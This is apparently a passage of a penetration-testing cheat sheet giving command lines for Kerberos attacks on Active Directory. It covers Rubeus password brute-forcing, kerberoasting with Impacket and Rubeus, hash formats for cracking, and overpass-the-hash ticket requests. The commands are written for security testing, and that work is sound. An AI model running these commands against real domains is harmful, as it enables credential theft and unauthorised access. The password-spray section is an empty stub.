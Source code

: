 ### With [Rubeus](https://github.com/Zer1t0/Rubeus) using the 'brute' module

```bash
# with a specified list of users and passwords
.\Rubeus.exe brute /users:$users_file /passwords:$pass_file /domain:$domain /outfile:$out_file

# Do a lookup for valid users and attack them
.\Rubeus.exe brute /passwords:$pass_file /outfile:$out_file
```

## Password Spray

Similar to a brute force attack, but only use one (or a few) passwords.  This minimizes the chances of account lockout. TODO: Add More

```
```

## Kerberoast

TGS Service key is derived from NTLM hash, so having one can give the other.

### Enumeration using LDAP

```
LDAP: (&(samAccountType=805306368)(servicePrincipalName=*))
```

LDAP filter for users with linked services

### Using [Impacket](https://github.com/SecureAuthCorp/impacket) GetUserSPNs.py

```bash
python GetUserSPNs.py $domain/$user:$password -outputfile $out_file
```

### Using [Rubeus](https://github.com/GhostPack/Rubeus) with kerberoast module

```bash
.\Rubeus.exe kerberoast /outfile:$out_file>
```

* Hashcat format: `13100`
* John format: `krb5tgs`

## Overpass The Hash/Pass The Key (PTK)

### Using [Impacket](https://github.com/SecureAuthCorp/impacket) getTGT.py

```bash
# Request the TGT with hash (lm portion of the hash is optional)
python getTGT.py $domain/$user@$host -hashes $hash
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py $domain/$user@$host -aesKey $aes_key
# Request the TGT by supplying the password
python getTGT.py $domain/$user@$host:$password
# If the password is not provided it will be prompted for

# export the .ccache from above for use
export KRB5CCNAME=$ccache_file

# Execute remote commands with any of the following using the -k flag
```